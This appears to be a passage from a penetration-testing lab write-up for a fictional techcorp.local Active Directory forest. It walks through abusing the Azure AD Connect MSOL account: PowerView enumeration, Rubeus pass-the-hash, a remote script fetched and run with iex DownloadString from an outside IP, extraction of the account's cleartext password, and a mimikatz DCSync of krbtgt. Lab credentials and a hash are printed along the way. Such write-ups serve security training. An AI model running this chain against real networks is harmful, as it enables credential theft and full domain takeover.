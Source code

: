 - We will use **PowerView** to query the Root Domain for the target user.
```powershell
PS C:\Auditor> Get-DomainUser -Domain techcorp.local -Properties * | Where-Object -Property samaccountname -like 'MSOL_*' | select SamAccountName,Description | fl


samaccountname : MSOL_16fb75d0227d
description    : Account created by Microsoft Azure Active Directory Connect with installation identifier 16fb75d0227d4957868d5c4ae0688943
                 running on computer US-ADCONNECT configured to synchronize to tenant techcorpus.onmicrosoft.com. This account must have
                 directory replication permissions in the local Active Directory and write permission on certain attributes to enable Hybrid
                 Deployment.
```
- We have discovered the target user. Our goal now is to extract cleartext credentials for `MSOL_16fb75d0227d`, since this account has DCSync permissions on the Parent Domain.
- We will impersonate `us\adconnect` and access `US-ADCONNECT` as that domain user. After that, we will extract the plaintext credentials of `techcorp\MSOL_16fb75d0227d` using **ADConnect**.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:adconnect /rc4:4e150424ccf419d83ce3a8ad1db7b94a /domain:us.techcorp.local /ptt

<snip>

PS C:\Users\adconnect> iex (New-Object Net.WebClient).DownloadString('http://192.168.100.57/adconnect.ps1')
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.57/adconnect.ps1')
PS C:\Users\adconnect> ADConnect
ADConnect
AD Connect Sync Credential Extract POC (@_xpn_)

AD Connect Sync Credential Extract v2 (@_xpn_)
        [ Updated to support new cryptokey storage method ]

[*] Querying ADSync localdb (mms_server_configuration)
[*] Querying ADSync localdb (mms_management_agent)
[*] Using xp_cmdshell to run some Powershell as the service user
[*] Credentials incoming...

Domain: techcorp.local
Username: MSOL_16fb75d0227d
Password: 70&n1{p!Mb7K.C)/USO.a{@m*%.+^230@KAc[+sr}iF>Xv{1!{=/}}3B.T8IW-{)^Wj^zbyOc=Ahi]n=S7K$wAr;sOlb7IFh}!%J.o0}?zQ8]fp&.5w+!!IaRSD@qYf
```
- We can now request a TGT for `MSOL_16fb75d0227d` to impersonate the account and execute a DCSync attack on any Domain on our Forest.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:MSOL_16fb75d0227d /password:'70&n1{p!Mb7K.C)/USO.a{@m*%.+^230@KAc[+sr}iF>Xv{1!{=/}}3B.T8IW-{)^Wj^zbyOc=Ahi]n=S7K$wAr;sOlb7IFh}!%J.o0}?zQ8]fp&.5w+!!IaRSD@qYf' /domain:techcorp.local /ptt

<snip>

PS C:\Auditor> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local
[DC] 'techcorp.local' will be the domain
```